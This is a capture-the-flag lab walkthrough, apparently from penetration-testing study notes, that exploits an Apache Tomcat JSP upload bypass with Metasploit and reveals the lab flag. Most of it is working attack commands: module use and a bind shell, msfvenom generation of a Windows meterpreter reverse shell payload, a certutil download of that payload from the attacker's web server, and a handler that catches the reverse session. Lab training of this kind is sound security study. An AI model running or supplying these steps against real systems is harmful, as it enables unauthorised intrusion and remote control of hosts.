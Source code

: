 # 🔬Tomcat - MSF Exploit

## Lab 1

>  🔬 [Windows: Java Web Server](https://attackdefense.com/challengedetails?cid=1948)
>
>  - Target IP: `10.2.24.113`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution](https://www.exploit-db.com/exploits/42966)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.24.113
setg RHOST 10.2.24.113
workspace -a TOMCAT
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 10.2.24.113
```

![db_nmap -sS -sV -O 10.2.24.113](assets/image-20230416120211695.png)

- Try tomcat from a browser
  - `http://10.2.24.113:8080/`

```bash
services
search type:exploit tomcat_jsp
use exploit/multi/http/tomcat_jsp_upload_bypass
info
# Description:
#  This module uploads a jsp payload and executes it.
check
run
```

- Or use a specific payload

```bash
set payload java/jsp_shell_bind_tcp
options
set SHELL cmd
run
```

- A CMD shell session is provided

```bash
cd /
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>


`92d60a06d0ea2179c9a8c442c0bd0bc0`

![](assets/image-20230416121023113.png)

</details>



- Obtain a `Meterpreter` session

```bash
background
sessions
```

- Generate a Windows `meterpreter` payload. Open a new terminal tab

```bash
ip -br -c a

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.18.2 LPORT=1234 -f exe > meterpreter.exe
```

```bash
sudo python3 -m http.server 80
```

- In the first `msfconsole` tab

```bash
sessions
sessions 2

certutil -urlcache -f http://10.10.18.2/meterpreter.exe meterpreter.exe
```

- Terminate the python web server and set up the handler in the second tab

```bash
vim handler.rc
# Insert the following lines

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.18.2
set LPORT 1234
run

# Save it and exit
```

```bash
msfconsole -r handler.rc
```

- Execute the `meterpreter.exe` on the target system

```bash
.\meterpreter.exe
```

- Reverse `Meterpreter` session will be opened.

------

